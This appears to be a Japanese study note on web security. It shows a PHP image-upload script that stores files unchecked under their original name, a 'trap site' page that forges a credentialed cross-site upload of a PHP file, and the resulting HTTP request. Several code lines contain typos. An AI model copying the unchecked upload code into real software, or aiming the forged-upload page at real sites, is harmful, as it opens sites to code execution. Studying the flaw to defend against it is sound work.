 アップロードされたファイルを受け取り画像として表示する

```
<?php
  session_start();
  // login処理
?><body>
<form action="upload.php" method="post" enctype="multipart/form-data">
  ファイル:<input type="file" name="imgfile" size="20"><br>
  <input type="submit" value="upload">
</form>
</body>
```

```
<?php
 function ex($s) { echo htmlspecialchars($s, ENT_COMPAT, 'UTF-8'); }
 session_start();
 $id = $_SESSION['id'];
 // login処理
 $tmpfile = $_FILES["imgfile"]["tmp_name"];
 $tofile = $_FILES["imgfile"]["name"];
 if (!is_uploaded_file($tmpfile)) {
  die('not uploaded"')
 }else if (!move_uploaded_file($tmpfile, "img/$tofile")) {
  die('can not upload')
 }
 $imgurl = 'img/' . urlencode($tofile);
</body>
ID:<?php ex($id); ?><br>以下の画像をuploadしました<br>
<a href="<?php ex($imgurl); ?>"><img src-"<?php ex($imgurl); ?>"></a>
```

罠サイト

```
<body>
<script>
data = '...----BNDRY\nContent-Disposition...{次のDNDRYの中身}';

var req = new XMLHttpRequest();
req.open('POST', 'http://sample.jp/upload.php');
req.setRequestHeader('Content-Type', 'multipart/form-data; boundary=--BNDRY');
req.withCredentials = true;
req.send(data);
</script>
</body>
```

* クッキー送信のためwithCredentials=true
* upload.phpの利用者が罠サイトを閲覧すると次のHTTPリクエストを送信

```
POST http://sample.jp/upload.php HTTP/1.1
Referer: http://trap.com/trap.html
Origin: http://trap.com
Content-Type: multipart/form-data; boundary=--BNDRY
Content-Length: ...
Cookie: PHPSESSIID=...
Host: sample.jp

----BNDRY
Content-Disposition: form-data; name="imgfile"; filename="a.php"
Content-Type: text/plain

<?php phpinfo();

----BNDRY--
```